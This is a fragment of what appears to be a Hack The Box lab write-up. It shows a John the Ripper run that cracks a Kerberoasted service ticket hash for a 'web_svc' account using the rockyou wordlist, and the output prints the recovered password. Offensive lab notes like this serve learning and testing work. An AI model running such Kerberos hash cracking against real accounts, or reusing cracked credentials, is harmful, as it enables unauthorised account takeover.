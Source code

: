 # Cracking the service ticket(TGS) to get web_svc Password
```bash
❯ john hash_svc_web_TGS.hash --wordlist=/home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
@3ONEmillionbaby (?)
1g 0:00:00:05 DONE (2022-02-25 19:29) 0.1694g/s 1947Kp/s 1947Kc/s 1947KC/s @421eduymayte619..@#ann!#
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
![[Pasted image 20220225193021.png]]


